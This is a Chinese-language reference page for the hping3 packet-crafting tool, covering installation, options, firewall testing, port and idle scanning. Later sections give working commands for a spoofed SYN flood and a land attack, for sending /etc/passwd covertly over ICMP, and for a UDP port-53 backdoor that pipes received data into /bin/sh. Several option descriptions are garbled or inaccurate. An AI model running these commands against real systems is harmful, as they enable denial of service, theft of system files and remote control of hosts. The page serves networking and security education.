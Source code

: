 #  hping3

测试网络及主机的安全

##  补充说明

**hping** 是用于生成和解析TCPIP协议数据包的开源工具。创作者是Salvatore
Sanfilippo。目前最新版是hping3，支持使用tcl脚本自动化地调用其API。hping是安全审计、防火墙测试等工作的标配工具。hping优势在于能够定制数据包的各个部分，因此用户可以灵活对目标机进行细致地探测。

###  安装

    
    
    yum install libpcap-devel tc-devel
    ln -s /usr/include/pcap-bpf.h /usr/include/net/bpf.h
    wget http://www.hping.org/hping3-20051105.tar.gz
    tar zxvf hping3-20051105.tar.gz
    cd hping3-20051105
    ./configure
    make
    make install
    

###  选项

    
    
    -H --help 显示帮助。
    -v -VERSION 版本信息。
    -c --count count 发送数据包的次数 关于countreached_timeout 可以在hping2.h里编辑。
    -i --interval 包发送间隔时间（单位是毫秒）缺省时间是1秒,此功能在增加传输率上很重要,在idle/spoofing扫描时此功能也会被用到,你可以参考hping-howto获得更多信息-fast 每秒发10个数据包。
    -n -nmeric 数字输出，象征性输出主机地址。
    -q -quiet 退出。
    -I --interface interface name 无非就是eth0之类的参数。
    -v --verbose 显示很多信息，TCP回应一般如：len=46 ip=192.168.1.1 flags=RADF seq=0 ttl=255 id=0 win=0 rtt=0.4ms tos=0 iplen=40 seq=0 ack=1380893504 sum=2010 urp=0
    -D --debug 进入debug模式当你遇到麻烦时，比如用HPING遇到一些不合你习惯的时候，你可以用此模式修改HPING，（INTERFACE DETECTION,DATA LINK LAYER ACCESS,INTERFACE SETTINGS,.......）
    -z --bind 快捷键的使用。
    -Z --unbind 消除快捷键。
    -O --rawip RAWIP模式，在此模式下HPING会发送带数据的IP头。
    -1 --icmp ICMP模式，此模式下HPING会发送IGMP应答报，你可以用--ICMPTYPE --ICMPCODE选项发送其他类型/模式的ICMP报文。
    -2 --udp UDP 模式，缺省下，HPING会发送UDP报文到主机的0端口，你可以用--baseport --destport --keep选项指定其模式。
    -9 --listen signatuer hping的listen模式，用此模式，HPING会接收指定的数据。
    -a --spoof hostname 伪造IP攻击，防火墙就不会记录你的真实IP了，当然回应的包你也接收不到了。
    -t --ttl time to live 可以指定发出包的TTL值。
    -H --ipproto 在RAW IP模式里选择IP协议。
    -w --WINID UNIX ,WINDIWS的id回应不同的，这选项可以让你的ID回应和WINDOWS一样。
    -r --rel 更改ID的，可以让ID曾递减输出，详见HPING-HOWTO。
    -F --FRAG 更改包的FRAG，这可以测试对方对于包碎片的处理能力，缺省的“virtual mtu”是16字节。
    -x --morefrag 此功能可以发送碎片使主机忙于恢复碎片而造成主机的拒绝服务。
    -y -dontfrag 发送不可恢复的IP碎片，这可以让你了解更多的MTU PATH DISCOVERY。
    -G --fragoff fragment offset value set the fragment offset
    -m --mtu mtu value 用此项后ID数值变得很大，50000没指定此项时3000-20000左右。
    -G --rroute 记录路由，可以看到详悉的数据等等，最多可以经过9个路由，即使主机屏蔽了ICMP报文。
    -C --ICMPTYPE type 指定ICMP类型，缺省是ICMP echo REQUEST。
    -K --ICMPCODE CODE 指定ICMP代号，缺省0。
    --icmp-ipver 把IP版本也插入IP头。
    --icmp-iphlen 设置IP头的长度，缺省为5（32字节）。
    --icmp-iplen 设置IP包长度。
    --icmp-ipid 设置ICMP报文IP头的ID，缺省是RANDOM。
    --icmp-ipproto 设置协议的，缺省是TCP。
    -icmp-cksum 设置校验和。
    -icmp-ts alias for --icmptype 13 (to send ICMP timestamp requests)
    --icmp-addr Alias for --icmptype 17 (to send ICMP address mask requests)
    -s --baseport source port hping 用源端口猜测回应的包，它从一个基本端口计数，每收一个包，端口也加1，这规则你可以自己定义。
    -p --deskport [+][+]desk port 设置目标端口，缺省为0，一个加号设置为:每发送一个请求包到达后，端口加1，两个加号为：每发一个包，端口数加1。
    --keep 上面说过了。
    -w --win 发的大小和windows一样大，64BYTE。
    -O --tcpoff Set fake tcp data offset. Normal data offset is tcphdrlen / 4.
    -m --tcpseq 设置TCP序列数。
    -l --tcpck 设置TCP ack。
    -Q --seqnum 搜集序列号的，这对于你分析TCP序列号有很大作用。
    

###  Hping3功能

Hping3主要有以下典型功能应用：

###  # 防火墙测试

使用Hping3指定各种数据包字段，依次对防火墙进行详细测试。请参考： [
http://0daysecurity.com/articles/hping3_examples.html
](http://0daysecurity.com/articles/hping3_examples.html)

测试防火墙对ICMP包的反应、是否支持traceroute、是否开放某个端口、对防火墙进行拒绝服务攻击（DoS
attack）。例如，以LandAttack方式测试目标防火墙（Land Attack是将发送源地址设置为与目标地址相同，诱使目标机与自己不停地建立连接）。

    
    
    hping3 -S  -c 1000000 -a 10.10.10.10 -p 21 10.10.10.10
    

###  # 端口扫描

Hping3也可以对目标端口进行扫描。Hping3支持指定TCP各个标志位、长度等信息。以下示例可用于探测目标机的80端口是否开放：

    
    
    hping3 -I eth0  -S 192.168.10.1 -p 80
    

其中 ` -I eth0 ` 指定使用eth0端口， ` -S ` 指定TCP包的标志位SYN， ` -p 80 ` 指定探测的目的端口。

hping3支持非常丰富的端口探测方式，nmap拥有的扫描方式hping3几乎都支持（除开connect方式，因为Hping3仅发送与接收包，不会维护连接，所以不支持connect方式探测）。而且Hping3能够对发送的探测进行更加精细的控制，方便用户微调探测结果。当然，Hping3的端口扫描性能及综合处理能力，无法与Nmap相比。一般使用它仅对少量主机的少量端口进行扫描。

###  # Idle扫描

Idle扫描（Idle Scanning）是一种匿名扫描远程主机的方式，该方式也是有Hping3的作者Salvatore
Sanfilippo发明的，目前Idle扫描在Nmap中也有实现。

该扫描原理是：寻找一台idle主机（该主机没有任何的网络流量，并且IPID是逐个增长的），攻击端主机先向idle主机发送探测包，从回复包中获取其IPID。冒充idle主机的IP地址向远程主机的端口发送SYN包（此处假设为SYN包），此时如果远程主机的目的端口开放，那么会回复SYN/ACK，此时idle主机收到SYN/ACK后回复RST包。然后攻击端主机再向idle主机发送探测包，获取其IPID。那么对比两次的IPID值，我们就可以判断远程主机是否回复了数据包，从而间接地推测其端口状态。

###  # 拒绝服务攻击

使用Hping3可以很方便构建拒绝服务攻击。比如对目标机发起大量SYN连接，伪造源地址为192.168.10.99，并使用1000微秒的间隔发送各个SYN包。

    
    
    hping3 -I eth0 -a192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
    

其他攻击如smurf、teardrop、land attack等也很容易构建出来。

###  # 文件传输

Hping3支持通过TCP/UDP/ICMP等包来进行文件传输。相当于借助TCP/UDP/ICMP包建立隐秘隧道通讯。实现方式是开启监听端口，对检测到的签名（签名为用户指定的字符串）的内容进行相应的解析。在接收端开启服务：

    
    
    hping3 192.168.1.159--listen signature --safe  --icmp
    

监听ICMP包中的签名，根据签名解析出文件内容。

在发送端使用签名打包的ICMP包发送文件：

    
    
    hping3 192.168.1.108--icmp ?d 100 --sign signature --file /etc/passwd
    

将 ` /etc/passwd ` 密码文件通过ICMP包传给192.168.10.44主机。发送包大小为100字节（-d
100），发送签名为signature(-sign signature)。

###  # 木马功能

如果Hping3能够在远程主机上启动，那么可以作为木马程序启动监听端口，并在建立连接后打开shell通信。与netcat的后门功能类似。

示例：本地打开53号UDP端口（DNS解析服务）监听来自192.168.10.66主机的包含签名为signature的数据包，并将收到的数据调用/bin/sh执行。

在木马启动端：

    
    
    hping3 192.168.10.66--listen signature --safe --udp -p 53 | /bin/sh
    

在远程控制端：

    
    
    echo ls >test.cmd
    hping3 192.168.10.44 -p53 -d 100 --udp --sign siganature --file ./test.cmd
    

将包含ls命令的文件加上签名signature发送到192.168.10.44主机的53号UDP端口，包数据长度为100字节。

当然这里只是简单的演示程序，真实的场景，控制端可以利益shell执行很多的高级复杂的操作。

